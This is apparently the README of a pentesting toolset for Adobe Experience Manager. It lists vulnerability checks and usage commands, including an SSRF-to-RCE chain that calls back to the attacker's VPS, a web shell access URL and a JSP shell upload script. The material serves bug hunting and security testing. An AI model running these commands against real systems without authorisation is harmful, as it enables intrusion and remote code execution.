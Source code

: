 # Toolset for AEM hacking

Tools to identify vulnerable Adobe Experience Manager (AEM) webapps. <a href="https://www.adobe.com/marketing/experience-manager.html">AEM is an enterprise-grade CMS</a>.

I've built these tools to automate bughunting and pentesting of AEM webapps. I've included checks for previously known vulnerabilities and misconfigurations, as well as for new ones, discovered by me in 2018/2019. **All discovered vulnerabilities were responsibly reported to Adobe PSIRT**.
 
You can find more details about vulnerabilities and techniques in presentations, I've prepared for <a href="https://speakerdeck.com/0ang3el/hunting-for-security-bugs-in-aem-webapps">Hacktivity conference</a> and <a href="https://www.youtube.com/watch?v=EQNBQCQMouk">LevelUp 0x03</a>.

AEM webapps are widespread and rarely configured securely or kept up to date. Bughunter, you have good chances to find security bugs, enjoy the tools!


Mikhail Egorov (<a href="https://twitter.com/0ang3el">@0ang3el</a>)

## Scripts

* `aem_hacker.py` - main script to scan AEM webapp for vulnerabilities.
* `aem_discoverer.py` - script to discover AEM webapps from list of URLs.
* `aem_ssrf2rce.py`, `aem_server.py`, `response.bin` - scripts to get RCE from SSRF.
* `aem-rce-sling-script.sh` - script to get RCE by uploading JSP shell to /apps JCR node.
* `aem_slurper.py` - crawl templates and HTML contents for test pages and internal user IDs.

## aem_hacker.py
**Important:** You need a VPS to detect SSRF vulnerabilities!

Tool tries to bypass AEM dispatcher. 

Following checks are currently implemented:
* `Exposed DefaultGetServlet` - checks if JCR nodes, that might contain sensitive information and secrets, are exposed via DefaultGetServlet.
* `Exposed QueryBulderJsonServlet and QueryBuilderFeedServlet` - if those servlets are exposed it might be possible to access various sensitive information and secrets. 
* `Exposed GQLServlet` - GQLServlet is similar to QueryBuilderFeedServlet.
* `Ability to create new JCR nodes` - checks if it's possible to create new JCR node.
* `Exposed POSTServlet` - POSTServlet allows to create/modify/delete content in JCR. Depending on your access level, it's possible to get stored XSS or RCE. 
* `Exposed LoginStatusServlet, CurrentUserServlet and UserInfoServlet` - if those servlets are exposed allows it might be possible to bruteforce credentials.
* `Users with default password` - checks for admin:admin, author:author, etc.
* `Exposed Felix Console` - exposed Felix Console might lead to RCE by uploading backdoor OSGI bundle.
* `Enabled WCMDebugFilter` - vulnerable to CVE-2016-7882 WCMDebugFilter might lead to reflected XSS.
* `Exposed WCMSuggestionsServlet` - exposed WCMSuggestionsServlet might lead to reflected XSS.
* `Exposed CRXDE and CRX` - checks for exposure of CRXDE and CRX.
* `Exposed Reports` - checks for exposure of reports.
* `SSRF SalesforceSecretServlet` - checks for SSRF via SalesforceSecretServlet (CVE-2018-5006). SSRF might allow to ex-filtrate secrets or perform XSS.
* `SSRF ReportingServicesServlet` - checks for SSRF via ReportingServicesServlet (CVE-2018-12809). SSRF might allow to ex-filtrate secrets or perform XSS.
* `SSRF SitecatalystServlet` - checks for SSRF via SitecatalystServlet. SSRF might allow to get RCE with the help of aem_ssrf2rce.py, when specific AEM version and appserver is used.
* `SSRF AutoprovisioningServlet` - checks for SSRF via AutoprovisioningServlet. SSRF might allow to get RCE with the help of aem_ssrf2rce.py, when specific AEM version and appserver is used.
* `SSRF Opensocial Proxy` - checks for SSRF via Opensocial (Shindig) proxy. SSRF might allow to ex-filtrate secrets or perform XSS.
* `SSRF Opensocial MakeRequest` - check for SSRF via Opensocial (Shindig) makeRequest. SSRF might allow to ex-filtrate secrets or perform XSS. You can use parameters `httpMethod`, `postData`, `headers`, `contentType` with `makeRequest`.
* `SWF XSSes` - checks for XSSes via SWF.
* `Deser ExternalJobServlet` - checks for vulnerable ExternalJobServlet.
* `Exposed Webdav` - checks for access to JCR via WebDav protocol. Exposed WebDav might lead to XXE (CVE-2015-1833) or stored XSS.
* `Exposed Groovy Console` - exposed Groovy console leads to RCE. 
* `Exposed ACS AEM Tools` - exposed ACS AEM Tools leads to RCE.
* `Exposed GuideInternalSubmitServlet` - exposed GuideInternalSubmitServlet vulnerable to XXE (CVE-2019-8086).
* `Exposed MergeMetadataServlet` - might be vulnerable to reflected XSS.
* `Exposed SetPreferences page` - might be vulnerable to reflected XSS.

#### Usage
```
usage: aem_hacker.py [-h] [-u URL] [--proxy PROXY] [--debug] [--host HOST]
                     [--port PORT] [--workers WORKERS]
                     [-H [HEADER [HEADER ...]]] [--handler HANDLER]
                     [--listhandlers]

AEM hacker by @0ang3el, see the slides -
https://speakerdeck.com/0ang3el/hunting-for-security-bugs-in-aem-webapps

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     url to scan
  --proxy PROXY         http and https proxy
  --debug               debug output
  --host HOST           hostname or IP to use for back connections during SSRF
                        detection
  --port PORT           opens port for SSRF detection
  --workers WORKERS     number of parallel workers
  -H [HEADER [HEADER ...]], --header [HEADER [HEADER ...]]
                        extra http headers to attach
  --handler HANDLER     run specific handlers, if omitted run all handlers
  --listhandlers        list available handlers
  --delay DELAY         seconds between requests
```

#### Example
```
python3 aem_hacker.py -u https://aem.webapp --host your_vps_hostname_ip
```

or

```
python3 aem_hacker.py -u https://aem.webapp --host your_vps_hostname_ip --handler groovy_console --handler salesforcesecret_servlet

```

## aem_discoverer.py
Script allows to scan urls and find AEM webapps among them.

Tool tries to bypass AEM dispatcher.

#### Usage
```
python3 aem_discoverer.py -h
usage: aem_discoverer.py [-h] [--file FILE] [--proxy PROXY] [--debug]
                         [--workers WORKERS]

AEM discoverer by @0ang3el, see the slides -
https://speakerdeck.com/0ang3el/hunting-for-security-bugs-in-aem-webapps

optional arguments:
  -h, --help         show this help message and exit
  --file FILE        file with urls
  --proxy PROXY      http and https proxy
  --debug            debug output
  --workers WORKERS  number of parallel workers
```

#### Example
```
python3 aem_discoverer.py --file urls.txt --workers 150
```

## aem_ssrf2rce.py, aem_server.py, response.bin
Helps to exploit SSRF in `SitecatalystServlet` and `AutoprovisioningServlet` as RCE. It should work on AEM before AEM-6.2-SP1-CFP7 running on Jetty (default installation).

## aem_ssrf2rce.py
A server-side request forgery for remote code execution.

#### Usage
```
python3 aem_ssrf2rce.py -h
usage: aem_ssrf2rce.py [-h] [--url URL] [--fakeaem FAKEAEM] [--proxy PROXY]

optional arguments:
  -h, --help         show this help message and exit
  --url URL          URL for SitecatalystServlet or AutoprovisioningServlet,
                     including path, without query part
  --fakeaem FAKEAEM  hostname/ip of fake AEM server
  --proxy PROXY      http and https proxy
```

#### Example
Place `aem_server.py` and `response.bin` on your VPS. Run `aem_server.py` script.

```
python3 aem_server.py
starting fake AEM server...
running server...
```

Run `aem_ssrf2rce.py` script.

```
python3 aem_ssrf2rce.py --url https://aem.webapp/libs/cq/analytics/components/sitecatalystpage/segments.json.servlet --fakeaem your_vps_hostname_ip
```

If RCE is possible, you should see incoming connection to your fake AEM server. After replication, you can access your shell from `https://aem.webapp/rcenode.html?Vgu9BKV9zdvJNByNh9NB=ls`.


## aem-rce-sling-script.sh
Script is handy when Felix Console is not available, but you have permissions to create new nodes under `/apps` JCR node.

#### Usage

```
./aem-rce-sling-script.sh https://aem.webapp username password
```

## aem_slurper.py
Read the AEM data and HTML contents in an attempt to discover forgotten test pages, sensitive data, internal user IDs.

#### Usage
```
python3 aem_slurper.py HOSTNAME [/PATH]
```

#### Example
```
time python3 aem_slurper.py HOST 2>&1 | tee HOST.txt
sort -k3 HOST.txt > HOST-sorted-by-path.txt
less HOST-sorted-by-path.txt
```

